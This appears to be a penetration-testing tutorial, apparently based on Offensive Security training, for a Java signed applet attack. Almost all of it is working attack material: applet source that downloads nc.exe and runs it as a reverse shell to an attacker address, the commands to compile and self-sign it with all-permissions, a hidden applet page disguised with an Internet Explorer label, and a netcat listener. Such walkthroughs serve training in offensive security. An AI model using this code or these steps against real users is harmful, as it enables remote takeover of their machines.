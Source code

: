 Java Signed Applet Attack
================================================================================

We target users on systems with Java installed and enabled in their browsers, who willclick 'Run' on the Java applet warning box.### [1] Write it.

We create a java file that, when run by the victim, downloads an executable and executes it in a temporary directory on the victim machine. In this story we choose netcat as the file to download, and we include the necessary reverse connection parameters right in the java file.```root@kali:~# vim Java.java
```

```import java.applet.*; 
import java.awt.*; 
import java.io.*; 
import java.net.URL; 
import java.util.*;

/*
 * Author: Offensive Security (<-- thanks for the great training)
 * This Java applet will download a file and execute it. 
 */

public class Java extends Applet {

  private Object initialized = null; 
  public Object isInitialized()
  {
    return initialized;
  }
  public void init() {
    Process f;
  try {
  String tmpdir = System.getProperty("java.io.tmpdir") + File.separator; 
  String expath = tmpdir + "evil.exe";
  String download = "";
  download = getParameter("1");
  if (download.length() > 0) { 
    // URL parameter
    URL url = new URL(download);
    // Get an input stream for reading
    InputStream in = url.openStream();
    // Create a buffered input stream for efficency
    BufferedInputStream bufIn = new BufferedInputStream(in); 
    File outputFile = new File(expath);
    OutputStream out = new BufferedOutputStream(new FileOutputStream(outputFile));
    byte[] buffer = new byte[2048];
    for (;;) {
      int nBytes = bufIn.read(buffer); 
      if (nBytes <= 0) break;
        out.write(buffer, 0, nBytes); 
      }
      out.flush(); 
      out.close(); 
      in.close();
      // Below line to simply execute file
      //f = Runtime.getRuntime().exec("cmd.exe /c " + expath);
      // Below line to execute file with reverse connection parameters (netcat)
      f = Runtime.getRuntime().exec("cmd.exe /c " + expath + " 10.11.0.42 443 -e cmd.exe");
    }
  } catch(IOException e) { 
      e.printStackTrace();
  }
  /* ended here and commented out below for bypass */ 
  catch (Exception exception)
  {
    exception.printStackTrace();
  }
}
}
```

### [2] Compile it.

We then compile our code with the Java compiler and sign our applet.```
root@kali:~# javac -source 1.7 -target 1.7 Java.javaroot@kali:~# echo "Permissions: all-permissions" > /root/manifest.txtroot@kali:~# jar cvf Java.jar Java.class  added manifest  adding: Java.class(in = 1233) (out= 709)(deflated 42%)root@kali:~# keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123  What is your first and last name?  ...root@kali:~# jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass -signedjar SignedJava.jar Java.jar signapplet
```
### [3] Copy jar and supporting files.

We copy the signed jar file to our /var/www/html/ directory.

```root@kali:~# cp Java.class SignedJava.jar /var/www/html/
```
Also in the /var/www/html/ directory, we create an HTML file with the applet embeddedin it. (Below is all a single command on a single, continuous line.)

```
root@kali:~# echo '<applet width="1" height="1" id="Microsoft(TM) Internet Explorer" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://10.11.0.42:80/nc.exe"></applet>' > /var/www/html/java.html
```
Lastly, we copy nc.exe to the same web root directory and ensure it has the same nameas referenced in the Java file.

```root@kali:~# cp /usr/share/windows-binaries/nc.exe /var/www/html/nc.exe
```
### [4] Attack.

Then we wait with a listener for the victim to navigate to our page and agree to runour Java applet.

```
root@kali:~# ncat -nvlp 443
```

<br>

